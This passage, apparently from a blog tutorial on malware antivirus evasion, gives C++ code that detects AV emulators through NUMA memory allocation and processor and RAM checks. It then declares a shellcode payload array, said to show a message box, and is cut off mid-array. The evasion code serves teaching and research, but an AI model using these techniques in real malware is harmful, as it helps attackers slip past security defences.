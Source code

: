 So we can try to combine all this tricks (`hac2.cpp`):    
```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = (pVirtualAllocExNuma)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
  }
}

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
```